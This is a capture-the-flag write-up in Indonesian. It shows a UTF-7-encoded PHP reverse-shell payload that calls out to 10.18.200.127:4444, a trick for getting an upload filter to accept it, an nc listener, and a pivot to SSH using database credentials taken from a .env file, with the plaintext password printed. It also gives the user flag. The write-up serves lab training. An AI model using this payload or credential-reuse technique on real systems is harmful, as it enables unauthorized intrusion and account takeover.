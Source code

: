 ```php
+ADw-?php exec("bash -i +AD4-& /dev/tcp/10.18.200.127/4444 0+AD4-&1") ?+AD4-
```

* Untuk tanda `<` di-encode ke `UTF-7` menjadi: `+ADw-`. Dan tanda `>` menjadi: `+AD4-` (lebih lengkapnya baca artikel berikut: [https://stackoverflow.com/questions/77609263/convert-utf-8-to-utf-7-in-python](https://stackoverflow.com/questions/77609263/convert-utf-8-to-utf-7-in-python)).
* Tetapi, setelah coba di upload masih gagal, karena kenapa ? karena by default ekstensinya adalah `.asp` (agak menjengkelkan sih ini wkwk). Hal itu dibuktikan dengan fungsi `phpinfo()` yang tetap berjalan meskipun ekstensi filenya `.asp`.
* Oke fix upload dan jangan lupa untuk listen ke port `4444` menggunakan `nc`.

```bash
nc -lnvp 4444
```

* Kalau berhasil, maka kita berhasil mendapatkan **reverse shell**.

### 2.7. Remote SSH to Target Server

* Setelah berhasil masuk dengan reverse shell, current user pastinya adalah `www-data`.
* Saya coba cari flag usernya, ternyata flag ada di direktori `/home/ayyub/user.txt`.
* File tersebut memiliki permission `r-x,r--,---` (**540**) yang berarti **other tidak bisa membaca file tersebut**.
* Saya coba lakukan enumerasi secara manual dan terpikir untuk melihat file `.env` yang ada di remote server.

<figure><img src="../.gitbook/assets/image (46).png" alt=""><figcaption></figcaption></figure>

* Dari informasi kredensial database yang ada di file `.env`, saya mencoba untuk remote SSH menggunakan password yang tertera di file tersebut dan **Alhamdulillah**! saya berhasil login sebagai user `ayyub`.
  * **Username**: ayyub
  * **Password**: B6CHkw$5BTaN%
* Intinya, belum tentu kredensial database tersebut khusus untuk login ke db, bisa saja ke SSH atau service-service lain :).
* Berikut POC setelah saya berhasil remote SSH ke user `ayyub` dan mendapatkan flag usernya:

<figure><img src="../.gitbook/assets/image (47).png" alt=""><figcaption></figcaption></figure>

## 3. User Flag

<kbd>ab40b8d326bcddb72f674759d6c09ccc</kbd>
